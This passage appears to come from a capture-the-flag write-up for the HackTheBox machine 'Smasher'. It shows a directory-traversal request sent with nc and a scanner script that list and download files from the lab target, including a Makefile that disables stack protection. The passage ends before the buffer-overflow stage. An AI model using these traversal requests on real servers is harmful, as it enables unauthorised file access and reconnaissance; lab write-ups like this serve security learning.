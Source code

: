 `www` and `smasher` home directories are probably where we want to look next:

We can't read the home directory of `smasher`:

```
root@kali:~/hackthebox/Machines/Smasher# python scanner.py /home/smasher
File not found
```

But we can read what's in `www`:

```
root@kali:~/hackthebox/Machines/Smasher# python scanner.py /home/www
.bash_logout
.bashrc
.cache/
.profile
.python_history
.ssh/
restart.sh
tiny-web-server/
```

Inside the web server directory, we can see that the Makefile has been modified to disable the stack protector and DEP/NX. This is our hint that we are probably looking at a buffer overflow exploit to get user access on this machine.

```
root@kali:~/hackthebox/Machines/Smasher# python scanner.py /home/www/tiny-web-server
.git/
Makefile
README.md
public_html/
tiny
tiny.c

root@kali:~/hackthebox/Machines/Smasher# python scanner.py /home/www/tiny-web-server/Makefile
CC = c99
CFLAGS = -Wall -O2

# LIB = -lpthread

all: tiny

tiny: tiny.c
    $(CC) $(CFLAGS) -g -fno-stack-protector -z execstack -o tiny tiny.c $(LIB)

clean:
    rm -f *.o tiny *~
```

Next, we'll grab the binary file and check if it's compiled with additional protections:

```
oot@kali:~/hackthebox/Machines/Smasher# nc -nv 10.10.10.89 1111 > tiny
(UNKNOWN) [10.10.10.89] 1111 (?) open
GET ../../../../home/www/tiny-web-server/tiny
```
